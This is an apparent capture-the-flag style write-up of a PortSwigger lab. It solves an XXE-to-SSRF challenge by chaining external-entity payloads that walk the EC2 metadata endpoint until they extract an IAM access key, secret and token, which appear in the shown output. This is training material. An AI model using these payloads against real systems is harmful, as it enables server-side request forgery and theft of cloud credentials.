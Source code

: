 # [Lab: Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)

## Lab

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is  `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the  [XXE](https://portswigger.net/web-security/xxe)  vulnerability to perform an  [SSRF attack](https://portswigger.net/web-security/ssrf)  that obtains the server's IAM secret access key from the EC2 metadata endpoint.

## Analysis

check stock request:

```http
POST /product/stock HTTP/1.1
Content-Length: 107
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

the body:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>
    1
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```

## tools

- burpsuite scanner: detected `Issue: XML external entity injection`

## Solutions

- 1:

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
  <stockCheck>
    <productId>
      &xxe;
    </productId>
    <storeId>
      1
    </storeId>
  </stockCheck>
  ```

  => `"Invalid product ID: latest"`

- 2:

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
  <stockCheck>
    <productId>
      &xxe;
    </productId>
    <storeId>
      1
    </storeId>
  </stockCheck>
  ```

  => `"Invalid product ID: meta-data"`

...

- final:

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
  <stockCheck>
    <productId>
      &xxe;
    </productId>
    <storeId>
      1
    </storeId>
  </stockCheck>
  ```

  => `"Invalid product ID:`

  ```json
  {
    "Code" : "Success",
    "LastUpdated" : "2023-02-15T18:09:18.860870017Z",
    "Type" : "AWS-HMAC",
    "AccessKeyId" : "XLlrzSrLDa8sT3aBL9bT",
    "SecretAccessKey" : "AzVFWpMWA5BqJg9ikvNftbQO5HrQxwxeZ311Jddo",
    "Token" : "HZ3IwQ23B34thm6B8GNni9zEiG3Rk4CjzrDI3SG89iXC3leD5fZINGn1GB5g2I4pyGMb8s10G3WwhrrokuAufco04KAPFfz0bVyj6raGyIjMOAgzBxnYdpBYnNUu9u7T4YG11ho1jWqtKHTlOYbOzoL0MlNSJr4vQwtJoZx0iQ0LeR66nbgCztPQeXqL1ax8zLGTXqtAnA4iVpVlaSrUOB7UjH9Z84VleOFYBG2vlqof9Ne0C3NUilxkMHLwZwhr",
    "Expiration" : "2029-02-13T18:09:18.860870017Z"
  }```

